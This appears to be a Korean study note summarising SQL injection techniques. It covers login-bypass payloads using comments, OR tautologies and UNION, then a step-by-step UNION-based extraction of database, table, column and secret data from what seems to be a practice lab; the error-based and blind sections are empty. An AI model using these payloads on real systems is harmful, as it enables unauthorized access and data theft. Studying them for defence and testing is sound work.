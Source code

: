 # SQL Injection 공격 기법 정리

           

# 식별 & 인증 동시

(id, password 입력 시) 

가정한 query
```
select * from member where id='' and pass=''
```

## \# 
아이디에 주석처리할 수 있는 문구를 넣어 인증을 우회하는 방식.
```
id : mario'#
```
```
select * from member where id='mario'#' and pass='1234'
```

## or
or 논리 연산자를 id 입력칸에 넣어 논리 연산자의 우선순위를 이용해 공격하는 방식이다. 
```
id : mario'or'1'='1
```
```
select * from member where id='mario'or'1'='1' and pass='1234'
```

## UNION
```
id : mario' union select 1,2,3,4 #
```
```
select * from member where id='mario' union select 1,2,3,4 #' and pass='1234'
```


</br>
</br>
</br>

# 식별 & 인증 분리

(id, password 입력 시) 

가정한 query
```
select pass from member where id=''
```
가정한 password 유효성 검사 구문
```
if( db_pass == userinput_pass ){     
    로그인 성공    
}else      
```

## or
```
id : mario' or '1'='1
```
```
select pass from member where id='mario' or '1'='1'
```
→ 모든 데이터 출력
</br>
</br>
</br>

# UNION SQL Injection

(SQL 질의문 결과가 화면에 보일시. 게시판, 회원정보, 주소검색, 검색페이지 등)

```
1. 추리

select ??? from ??? where name like = '%___%'
```
```
2. 취약점 확인

verwatc%' and '1%'='1
```
```
3. order by

verwatch%' order by 1 #
verwatch%' order by 2 #
verwatch%' order by 3 #

오류가 발생할 떄까지.
```
```
4. data 출력 위치 파악

verwatc%' union select '1','2','3','4'#
```
```
5. DB 이름 확인

verwatc%' union select 1,2,database(),4 #
```
```
6. table 이름 확인

table 이름 확인하는 query문.
(
select table_name from information_schema.tables where table_schema = 'db이름'
)

verwatc%' union select '1',table_name,'3','4' from information_schema.tables where table_schema = 'segfault_sql' #
```
```
7. column 이름 확인

column 이름 확인하는 query문
(
select column_name from informarion_schema.columns where table_name='table이름'
)

verwatc%' union select '1',column_name,'3','4' from information_schema.columns where table_name='secret' #
```
```
8. data 추출

verwatc%' union select '1',secret,'3','4' from secret #
```
</br>
</br>
</br>

# Error Based SQL Injection





</br>
</br>
</br>

# Blind SQLi   
